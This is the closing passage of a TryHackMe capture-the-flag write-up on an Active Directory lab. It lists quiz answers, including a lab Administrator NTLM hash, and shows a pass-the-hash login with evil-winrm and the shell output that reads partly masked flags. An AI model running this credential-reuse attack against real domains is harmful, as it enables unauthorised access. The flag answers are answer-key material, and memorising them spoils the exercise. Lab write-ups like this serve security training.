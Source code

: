 - Question `What method allowed us to dump NTDS.DIT?` Answer `DRSUAPI`
- Question `What is the Administrators NTLM hash?` Answer `0e0363213e37b94221497260b0bcb4fc`
- Question `What method of attack could allow us to authenticate as the user without the password?` Answer `Pass the hash`
- Question `Using a tool called Evil-WinRM what option will allow us to use a hash?` Answer `-H`

## Flag Submission Panel
- We can login to administrator using `evil-winrm` with `evil-winrm -i spookysec.local -u Administrator -H 0e03632*******b0bcb4fc` command. We can get three flag files inside three directory.

```bash
evil-winrm -i spookysec.local -u Administrator -H 0e036321*****97260b0bcb4fc                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\svc-admin\Desktop\user.txt.txt
TryHackMe{K3rb3****4uth}
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\backup\Desktop\PrivEsc.txt
TryHackMe{B4c*****c0tty!}
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
TryHackMe{4ctive*****toryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
- Question `svc-admin` Answer `TryHackMe{K3rb3*****3_4uth}`
- Question `backup` Answer `TryHackMe{B4*****0tty!}`
- Question `administrator` Answer `TryHackMe{4ctiv******M4st3r}`

   
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
